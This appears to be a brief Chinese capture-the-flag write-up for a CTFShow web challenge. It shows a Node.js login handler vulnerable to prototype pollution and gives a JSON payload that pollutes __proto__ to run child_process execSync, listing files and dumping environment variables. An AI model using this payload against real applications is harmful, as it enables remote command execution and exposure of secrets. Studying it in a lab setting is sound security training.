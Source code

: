 # 题解
	- `/login`
	- ```js
	  res.type('html');
	  var flag='flag_here';
	  var user = new function(){
	    this.userinfo = new function(){
	      this.isVIP = false;
	      this.isAdmin = false;
	      this.isAuthor = false;
	    };
	  }
	  utils.copy(user.userinfo,req.body);
	  if(user.userinfo.isAdmin){
	    res.end(flag);
	  }else{
	    return res.json({ret_code: 2, ret_msg: '登录失败'});  
	  }
	  ```
	- 第十行存在原型链污染，但是`isAdmin`参数已经设置，无法直接污染第十一行
	- 基本思路和 [[CTFWEB/WP/CTFShow/web339]]相同
	- Payload:
	- ```json
	  {"username":"a","password":"1","__proto__": {"__proto__":{"query":"return (() =>{try {return global.process.mainModule.constructor._load('child_process').execSync('echo $(ls .) $(env)').toString();}catch(e){return e;}})();"}}}
	  ```
